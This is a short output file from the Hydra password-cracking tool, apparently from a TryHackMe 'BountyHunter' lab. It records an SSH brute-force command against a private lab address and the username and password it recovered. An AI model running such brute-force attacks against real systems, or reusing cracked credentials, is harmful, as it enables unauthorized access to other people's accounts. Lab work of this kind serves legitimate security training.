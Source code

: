 # Hydra v9.5 run at 2024-11-22 00:22:49 on 10.10.188.195 ssh (hydra -L possible_users.txt -P locks.txt -e nsr -o /opt/THM/BountyHunter/2-enum/ssh/hydra_ssh.md ssh://10.10.188.195)
[22][ssh] host: 10.10.188.195   login: lin   password: RedDr4gonSynd1cat3
